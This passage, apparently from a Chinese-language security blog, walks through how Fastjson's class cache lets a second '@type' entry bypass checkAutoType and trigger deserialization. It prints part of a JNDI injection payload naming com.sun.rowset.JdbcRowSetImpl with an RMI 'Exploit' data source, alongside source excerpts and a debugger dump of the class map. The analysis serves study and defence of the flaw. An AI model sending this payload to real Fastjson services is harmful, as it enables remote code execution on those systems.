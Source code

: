 [![](https://p0.ssl.qhimg.com/t01d90d40317d70c323.png)](https://p0.ssl.qhimg.com/t01d90d40317d70c323.png)

继续跟进，一路进入到loadClass这个函数

简单来说，这个函数判断预先定义的类的map里面有没有传进来的这个className，如果没有的话，就把它加进去

[![](https://p2.ssl.qhimg.com/t015d53e19ed3d4d695.png)](https://p2.ssl.qhimg.com/t015d53e19ed3d4d695.png)

而这个map正是checkAutoType里面的map，这个地方就是漏洞的触发点，通过将com.sun.rowset.JdbcRowSetImpl这个类加载到map中，从而绕过了checkAutoType的验证，进而造成了反序列化



## 0x07 新一轮的json解析

前面说过，那个大while里面是解析json用的，在第一个键值对解析完了以后，继续开始解析第二个键值对，也就是：

```
"xxxx":`{`
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://localhost:1099/Exploit",
        "autoCommit":true
    `}`
```

和前面的流程基本一摸一样，检测到[@type](https://github.com/type)字段，获取到[@type](https://github.com/type)对应的值，也就是com.sun.rowset.JdbcRowSetImpl，进入到checkAutoType的检验，我们直接跟到checkAutoType的检验中

前面都没什么好说的，最重要的是这一步：

[![](https://p1.ssl.qhimg.com/t01681bc02bbb402864.png)](https://p1.ssl.qhimg.com/t01681bc02bbb402864.png)

我们跟进，来到了这个函数

```
public static Class&lt;?&gt; getClassFromMapping(String className) `{`
        return (Class)mappings.get(className);
    `}`
```

而maps里面的值为：

```
"java.text.SimpleDateFormat" -&gt; `{`Class@691`}` "class java.text.SimpleDateFormat"
"java.util.concurrent.ConcurrentHashMap" -&gt; `{`Class@18`}` "class java.util.concurrent.ConcurrentHashMap"
"java.lang.InternalError" -&gt; `{`Class@348`}` "class java.lang.InternalError"
"java.lang.StackOverflowError" -&gt; `{`Class@7`}` "class java.lang.StackOverflowError"
"java.sql.Date" -&gt; `{`Class@696`}` "class java.sql.Date"
"java.util.concurrent.atomic.AtomicInteger" -&gt; `{`Class@40`}` "class java.util.concurrent.atomic.AtomicInteger"
"java.lang.Exception" -&gt; `{`Class@227`}` "class java.lang.Exception"
"java.lang.IllegalStateException" -&gt; `{`Class@700`}` "class java.lang.IllegalStateException"
"java.util.Calendar" -&gt; `{`Class@702`}` "class java.util.Calendar"
"java.lang.InterruptedException" -&gt; `{`Class@704`}` "class java.lang.InterruptedException"
"java.util.BitSet" -&gt; `{`Class@192`}` "class java.util.BitSet"
"java.util.Hashtable" -&gt; `{`Class@236`}` "class java.util.Hashtable"
"[C" -&gt; `{`Class@341`}` "class [C"
"java.util.TreeMap" -&gt; `{`Class@709`}` "class java.util.TreeMap"
"java.util.LinkedHashMap" -&gt; `{`Class@111`}` "class java.util.LinkedHashMap"
"java.sql.Timestamp" -&gt; `{`Class@712`}` "class java.sql.Timestamp"
"java.lang.IllegalArgumentException" -&gt; `{`Class@75`}` "class java.lang.IllegalArgumentException"
"java.util.concurrent.TimeUnit" -&gt; `{`Class@715`}` "class java.util.concurrent.TimeUnit"
"java.lang.InstantiationError" -&gt; `{`Class@717`}` "class java.lang.InstantiationError"
"java.lang.IndexOutOfBoundsException" -&gt; `{`Class@719`}` "class java.lang.IndexOutOfBoundsException"
"java.lang.VerifyError" -&gt; `{`Class@721`}` "class java.lang.VerifyError"
```